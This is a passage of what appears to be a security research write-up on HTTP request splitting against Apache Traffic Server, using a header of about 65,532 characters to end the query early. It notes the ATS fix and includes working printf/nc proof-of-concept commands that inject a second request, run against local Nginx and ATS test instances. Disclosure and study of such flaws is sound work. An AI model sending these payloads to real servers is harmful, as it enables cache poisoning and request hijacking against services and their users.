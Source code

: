 That's an HTTP request splitting attack, but real world usage may be hard to find.

The fix on ATS is the 'close on error', when an error 400 is triggered the pipelined is stopped, the socket is closed after the error.

## Request Splitting using Huge Header, Early End-Of-Query

This attack is almost the same as the previous one, but do not need the magical **NULL** character to trigger the end-of-query event.

By using headers with a size around **65536 characters** we can trigger this event, and exploit it the same way than the with the NULL premature end of query.

A note on printf huge header generation with `printf`. Here I'm generating a query with one header containing a lot of repeated characters (`=` or `1` for example):
    
    X: ==============( 65 532 '=' )========================\r\n

You can use the `%ns` form in printf to generate this, generating big number of spaces.

But to do that we need to replace some special characters with tr and use `_` instead of spaces in the original string:

{% highlight bash %}
printf 'X:_"%65532s"\r\n' | tr " " "=" | tr "_" " "
{% endhighlight %}

Try it against Nginx :

{% highlight bash %}
printf 'GET_/something.html?zorg=6_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65532s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8002
{% endhighlight %}

I gat one error 400, that's the normal stuff. It Nginx does not like huge headers.

Now try it against ATS7:

{% highlight bash %}
printf 'GET_/something.html?zorg2=5_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8007
{% endhighlight %}
